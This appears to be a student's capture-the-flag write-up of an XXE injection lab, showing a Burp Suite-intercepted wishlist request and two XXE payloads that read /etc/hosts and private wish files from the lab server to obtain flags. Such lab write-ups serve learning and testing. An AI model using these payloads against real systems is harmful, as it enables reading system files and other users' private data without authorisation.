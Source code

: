 This one was pretty easy.
Step 1:
This task was all about XXE injections and burp suite, luckily I already knew this because of picoctf.
So to get started we were given a website on which I had to explore different options, so to get started I added a product into my cart and I went to view my cart.
There I got an error message when I clicked on wish#21, that admin privileges were required to view the different wishes.

![image](https://github.com/user-attachments/assets/b3ad5302-d732-4be1-9003-3cd66f4aac91)

Step 2:
This is what was to be done, to access different wishes of people(gaining access to that sensitive information).
So that is where burp suite comes into play.
so burp suite was used here to intercept the request when a product was added to the wishlist.

Where the following request was intercepted:
~~~
POST /wishlist.php HTTP/1.1
Host: 10.10.211.203
Content-Length: 215
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://10.10.211.203
Referer: http://10.10.211.203/product.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


                <wishlist>
                    <user_id>1</user_id>
                    <item>
                        <product_id>2</product_id>
                    </item>
                </wishlist>
~~~

What I had to do was replace the xml code so that it can be exploited using the xxe injection.

Step 3:
To do this I sent it to the repeater tab where I replaced it with:
~~~
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
~~~
which gave me some specific response.

Then I tried something different in the entity so as to gain access to different wishes:
~~~
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
<wishlist>
	<user_id>1</user_id>
	<item>
	       <product_id>&payload;</product_id>
	</item>
</wishlist>
~~~
this gave me access to the 1st wish.
![image](https://github.com/user-attachments/assets/ae960be8-d522-4c5d-bd25-f3dfde2e93b6)


Now I had to find a flag which was in some wish number x which was supposed to be guessed by hit and trial of course, and wish number 15 gave me the flag.
![image](https://github.com/user-attachments/assets/11ac6789-cd7f-492a-aa6f-1e0e0b678c8c)



then I had to head to the /changelog url to get the next flag.
![image](https://github.com/user-attachments/assets/35a3ede5-9124-445e-938f-2adfde9c19ac)

Learnings:
Just got a nice little revision of burp suite and xxe injection.

